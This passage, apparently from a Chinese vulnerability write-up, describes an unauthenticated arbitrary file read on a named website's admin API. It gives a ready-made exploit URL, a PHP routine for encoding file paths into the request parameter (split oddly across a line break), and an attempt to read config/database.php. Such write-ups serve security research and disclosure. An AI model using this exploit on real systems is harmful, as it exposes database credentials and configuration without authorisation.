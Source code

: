 还有一个网站目录下任意文件读取（无需权限）

[![](assets/1706145764-745e74b7dcf1672ffceaa465e5c94688.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122214153-0056e232-b92c-1.png)

[http://www.shuadan.com/admin.html?s=admin/api.update/read?encode=2r33322u2x2v1b2s2p382p2q2p372t1a342w34](http://www.shuadan.com/admin.html?s=admin/api.update/read?encode=2r33322u2x2v1b2s2p382p2q2p372t1a342w34)

这个的话比上面那个就稍微麻烦点，因为它传入参数的值是加密了的

我直接定位到 encode 函数放到本地来跑

```plain
<?php
function encode($string)
{
list($chars, $length) = ['', strlen($content = iconv('UTF-8',
'GBK//TRANSLIT', $string))];
for ($i = 0; $i < $length; $i++) $chars .=
str_pad(base_convert(ord($content[$i]), 10, 36), 2, 0, 0);
return $chars;
} v
ar_dump(encode($_GET[1]));
?>
```

尝试去读取 config/database.php 文件

[![](assets/1706145764-2a1dd1ab9fa2bf5d2e3deac70153ae66.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122214230-16e8097c-b92c-1.png)
